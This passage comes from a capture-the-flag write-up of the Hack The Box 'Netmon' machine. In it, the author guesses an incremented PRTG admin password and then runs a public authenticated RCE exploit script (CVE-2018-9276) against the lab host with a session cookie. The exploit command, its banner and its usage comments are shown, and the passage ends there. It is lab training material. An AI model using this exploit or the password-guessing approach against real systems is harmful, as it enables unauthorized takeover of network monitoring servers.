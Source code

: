 That looks a whole lot like a password to me. Let's try to log into the web gui with this - no dice. Password was not accepted. That seemed a lot like what I should be doing, I am not sure why it is not working. I restarted the box and tried again incase someone else had changed it to troll, but that was not the case. 

Sometimes you need to think more like a user! This was a backup of an old config file and the date of the password was **2018**. How do people manage their passwords? They just increment up 1 past the old one! We should try `PrTg@dmin2019` and see if that works:

![Welcome!](./images/prtg.PNG)  
**Figure 3:** Welcome!  

Sweet! That worked - I am actually pretty surprised that worked. Now that we have working credentials we should try that RCE from before.

The exploit howto says: 
```console
# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 
```  
So we need to get the cookie after we logged in, I grabbed a firefox add-on that would allow me to grab it: [Cookie Quick Manager](https://addons.mozilla.org/en-GB/firefox/addon/cookie-quick-manager/?src=search). 

```console
root@apollo:~/htb/netmon# ./prtgexploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.462644261.1552777052; _gid=GA1.4.26341854.1556416295; OCTOPUS1813713946ezJCM0FGNUUzLUM1MUYtNEYwMC1BNTEyLTQ5MTM5MUI1QUE0QX0%3D; _gat=1"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

```